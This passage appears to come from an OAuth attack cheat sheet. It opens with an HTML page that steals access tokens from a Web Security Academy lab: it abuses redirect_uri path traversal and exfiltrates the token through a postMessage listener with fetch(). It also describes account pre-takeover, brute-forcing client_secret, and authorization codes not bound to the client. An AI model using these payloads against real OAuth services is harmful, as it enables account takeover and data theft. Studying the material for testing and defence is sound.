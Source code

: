 ```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Parent Window</title>
</head>
<body>
    <h1>Parent Window</h1>
    <iframe id="child-iframe" src="https://oauth-0a51003f04d3047d81a09676029600de.oauth-server.net/auth?client_id=f13tk3x2wuozyr4n6r4o8&redirect_uri=https%3A%2F%2F0a4300a604b4040e81cc981100e600ca%2Eweb%2Dsecurity%2Dacademy%2Enet%2Foauth%2Dcallback%2F%2E%2E%2Fpost%2Fcomment%2Fcomment%2Dform&response_type=token&nonce=489624795&scope=openid%20profile%20email" width="600" height="400"></iframe>
    <script>
        window.addEventListener('message', function(e) {
            fetch("/" + encodeURIComponent(e.data.data))
        }, false)
    </script>
</body>
</html>
```

### Unverified user registration
1) **Without Email Verification on Account Creation:** attackers creating an account with a service using the victim's email address without requiring email verification. This allows the attacker to establish control over an account linked to the victim's email. If the victim later uses a third-party service to log in (such as OAuth), the application might mistakenly link the victim's third-party account to the attacker's pre-created account. As a result, the attacker can gain unauthorized access to the victim's account and any associated data or privileges.

2) **Exploiting Lax OAuth Email Verification:** attackers registering with an OAuth service using their own email, bypassing email verification. After registration, they change the account's email to the victim's email address. When the victim later tries to log in or register using their email, the service may inadvertently link the victim's account to the attacker's pre-created account. This allows the attacker to gain unauthorized access to the victim's account, posing significant security risks.

### Client Secret Bruteforce
You can try to bruteforce the client_secret of a service provider with the identity provider in order to be try to steal accounts.

```http
POST /token HTTP/1.1
Host: authorization-server.com
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&code=AUTHORIZATION_CODE&redirect_uri=https://client.example.com/callback&client_id=YOUR_CLIENT_ID&client_secret=[BruteForce]

```

### Authorization/Refresh Token not bound to client
authorization server validates the authorization code without verifying if it originated from the same client, it issues an access token to the attacker . With the obtained access token, the attacker gains unauthorized access to the victim user's resources and can potentially take over their account
